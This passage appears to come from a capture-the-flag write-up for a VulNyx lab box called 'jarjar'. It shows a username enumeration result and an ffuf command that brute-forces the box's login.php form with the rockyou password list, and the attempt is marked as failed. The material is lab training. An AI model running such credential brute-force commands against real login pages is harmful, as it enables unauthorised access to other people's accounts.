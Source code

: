 ```
[SNIP]

quigon                  [Status: 200, Size: 4185, Words: 1674, Lines: 134, Duration: 13ms]
jarjar                  [Status: 200, Size: 4185, Words: 1674, Lines: 134, Duration: 16ms]
obiwan                  [Status: 200, Size: 4185, Words: 1674, Lines: 134, Duration: 18ms]

┌──(nabla㉿kali)-[~]
└─$ echo -e 'quigon\njarjar\nobiwan' | tee ./users.txt

quigon
jarjar
obiwan
```

![Firefox - Login Attempt 1](./assets/screenshots/vulnyx_jarjar_firefox_login_attempt_1.png)

![Firefox - Login Attempt 2](./assets/screenshots/vulnyx_jarjar_firefox_login_attempt_2.png)

```
┌──(nabla㉿kali)-[~]
└─$ ffuf -w ./users.txt:FUZZ1 -w /usr/share/wordlists/rockyou.txt:FUZZ2 -u http://jarjar.nyx/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ1&password=FUZZ2" -fr "Invalid Password" -t 100

❌
```
